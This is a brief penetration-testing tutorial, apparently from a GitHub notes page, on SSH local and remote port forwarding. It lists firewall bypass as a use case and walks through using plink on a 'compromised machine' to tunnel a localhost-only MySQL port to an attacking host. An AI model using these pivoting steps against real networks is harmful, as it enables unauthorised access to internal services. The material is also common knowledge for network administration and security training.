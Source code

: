 **Use cases**
- You want to encrypt traffic that uses unencrypted protocols. Like VNC, IMAP, IRC.
- You are on a public network and want to encrypt all your http traffic.
- You want to bypass firewall rules.


### Local port forwarding

Now facebook will be available on address localhost:8080.

```
ssh -L 8080:www.facebook.com:80 localhost
```

You can also forward ports like this:

```
ssh username@<remote-machine> -L localport:target-ip:target-port

ssh username@192.168.1.111 -L 5000:192.168.1.222:5000
```

Now this port will be available on your localhost.
So you go to:

```
nc localhost:10000
```

### Remote port forwarding

Remote port forwarding is crazy, yet very simple concept. So imagine that you have compromised a machine, and that machine has like MYSQL running but it is only accessible for localhost. And you can't access it because you have a really crappy shell. So what we can do is just forward that port to our attacking machine. The steps are as following:

Here is how you create a remote port forwarding:

```
ssh <gateway> -R <remote port to bind>:<local host>:<local port>
```



By the way, plink is a ssh-client for windows that can be run from the terminal. The ip of the attacking machine is **111.111.111.111**.

**Step 1**
So on our compromised machine we do:

```
plink.exe -l root -pw mysecretpassword 111.111.111.111 -R 3307:127.0.0.1:3306
```

**Step 2**
Now we can check netstat on our attacking machine, we should see something like this:

```
tcp        0      0 127.0.0.1:3307          0.0.0.0:*               LISTEN      19392/sshd: root@pt 
```
